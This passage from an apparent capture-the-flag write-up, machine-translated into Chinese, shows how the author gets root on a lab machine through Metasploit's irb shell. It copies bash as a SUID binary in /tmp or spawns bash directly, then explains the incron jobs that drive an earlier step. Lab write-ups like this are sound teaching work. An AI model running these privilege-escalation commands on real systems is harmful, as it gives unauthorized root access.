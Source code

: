 从这里获得外壳的一种方法是下降到集成的Ruby外壳中， ：`irb`

    msf6 > irb
    [*] Starting IRB shell...
    [*] You are in the "framework" object
    
    irb: warn: can't alias jobs from irb_jobs.
    >> 
    

从那里，我可以运行任意命令。一种方法是复制并设置它SUID：`system``bash`

    >> system("cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf")
    => true
    

现在，这将给出一个根壳：

    kid@scriptkiddie:~$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1000(kid) gid=1000(kid) euid=0(root) groups=1000(kid)
    

更简单，我可以从以下位置运行：`system("bash")``irb`

    >> system("bash")
    root@scriptkiddie:/home/pwn#
    

更简单，我可以从 MSF 提示符运行终端命令：

    msf6 > bash                                                                    
    [*] exec: bash
    
    root@scriptkiddie:/home/pwn#
    

无论使用哪种方法，我现在都可以抓住：`root.txt`

    0xdf-5.0# cat /root/root.txt
    b2b48d52************************
    

## 超越根

### 铬合金

还有两个任务作为 pwn 运行，存储在：`incron``/var/spool/incron/pwn`

    /home/pwn/recon/        IN_CLOSE_WRITE  sed -i 's/open  /closed/g' "$@$#"
    /home/kid/logs/hackers  IN_CLOSE_WRITE   /home/pwn/scanlosers.sh
    

`incron`，来自 iNotify cron，是一项服务，它将监视不同类型的文件系统事件并基于它们触发操作。例如，上面的第一行。它正在查看文件夹，并在事件上触发。每当该文件夹中有写入事件时，它就会运行。此行是一个清理机制。它将采用写入的所有扫描数据并替换为已关闭。这只是要小心，不要让玩家机器的扫描件躺在主机上。任何找到的打开端口仍将显示为已关闭。`/home/pwn/recon``IN_CLOSE_WRITE``sed``/home/pwn/recon``open`

第二个是触发特权第一步的触发因素。它查找写入文件的事件，然后作为 pwn 运行。这就是作业设法在日志生成时立即触发的方式。`hackers``scanlosers.sh`

### 滤波
